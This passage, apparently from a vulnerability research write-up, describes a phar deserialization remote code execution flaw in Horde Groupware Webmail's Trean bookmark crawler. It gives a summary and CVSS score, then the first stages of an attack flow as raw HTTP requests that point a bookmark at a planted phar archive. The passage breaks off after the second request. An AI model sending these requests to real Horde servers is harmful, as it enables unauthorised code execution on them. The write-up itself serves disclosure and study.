 To quote Andrea from his blog post:

> > To use the other approach instead, just bookmark phar:///tmp/exploit.phar then click on it after the upload phase.

What is evident is that his approach to discovering the phar deserialization issues was through black-box auditing which can help reveal context that's mapped to the UI. Whilst white-box auditing is important for discovering a large varient base, it's evident that a black-box approach can still find critical issues where varients can be modelled from.

## Horde Groupware Webmail Trean_Queue_Task_Crawl url Deserialization of Unstrusted Data Remote Code Execution Vulnerability

- Discovered by: Andrea Cardaci
- CVE: N/A
- CVSS: 6.3 [(AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L))

### Summary

This vulnerability allows remote attackers to execute arbitrary code on affected installations of Horde Groupware Webmail Edition. Low privileged authentication is required to exploit this vulnerability.

The specific flaw exists within the `Trean_Queue_Task_Crawl` class. When parsing the url parameter the process does not properly validate the user-supplied value prior to using it in file operations that result in deserialization of untrusted data. An attacker can leverage this in conjunction with other vulnerabilities to execute code in the context of the www-data user.

### Attack Flow

This flow can be triggered after a user has logged in and planted a phar archive using CVE-2020-8866:

Stage 1 - Add a bookmark with the url parameter mapping to your malicious phar archive.

```
POST /horde/trean/add.php HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Cookie: Horde=<sessionid>

actionID=add_bookmark&url=phar:///tmp/poc.xyz
```

Stage 2 - Leak the `b` parameter. This is required to trigger stage 3.

```
GET /horde/trean/ HTTP/1.1
Host: <target>
Cookie: Horde=<sessionid>
```

response...
